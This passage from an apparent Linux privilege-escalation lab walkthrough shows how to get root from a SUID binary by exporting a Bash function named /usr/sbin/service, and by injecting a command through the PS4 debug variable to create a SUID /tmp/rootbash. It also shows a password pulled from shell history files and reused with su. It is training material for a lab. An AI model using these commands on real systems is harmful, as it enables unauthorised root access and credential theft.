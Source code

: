 Create a Bash function with the name "/usr/sbin/service" that executes
a new Bash shell (using -p so permissions are preserved) and export the function:

```
$ function /usr/sbin/service { /bin/bash -p; }
$ export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:
```
$ /usr/local/bin/suid-env2
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

### SUID / SGID Executables - Abusing Shell Features (#2)
Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to
display an extra prompt for debugging statements.

Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and
the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```
$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

### Passwords & Keys - History Files

If a user accidentally types their password on the command line
instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:

`$ cat ~/.*history | less`

mysql -h somehost.local -uroot -ppassword123

Note that the user has tried to connect to a MySQL server at some point,
using the "root" username and a password submitted via the command line.
Note that there is no space between the -p option and the password!

Switch to the root user, using the password:

`$ su root`
Password:password123

### Passwords & Keys - Config Files
